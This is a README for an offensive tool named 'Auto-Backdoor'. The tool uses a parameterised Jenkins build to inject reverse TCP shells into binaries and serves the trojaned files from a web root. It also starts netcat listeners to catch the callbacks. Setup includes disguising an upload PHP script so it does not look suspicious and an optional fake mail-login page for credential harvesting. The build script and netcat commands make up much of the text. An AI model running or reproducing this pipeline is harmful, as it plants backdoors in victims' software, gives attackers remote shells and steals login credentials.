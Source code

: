 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`


Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`


##Jenkins configuration:

Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, edit	###NEED TO FIND CONFIG LOCATION###)
Need to edit the following in jenkins:


1: Make it a pramatrised build with the following
..1: dir
..2: Payload_Type
..3: port		(Note: For shell call back)
..4: IP		(Note: For shell call back)	
..5: binName
2: Check allow simotaius builds
3: Set allow remote triggred with a token
4: Build shell with following:

```
rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging
```

##PHP Configuration:
I use apache2 with PHP5
`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
move the put.php into /var/www/html/ and change the name to something that would not be susspisus
if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
##To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
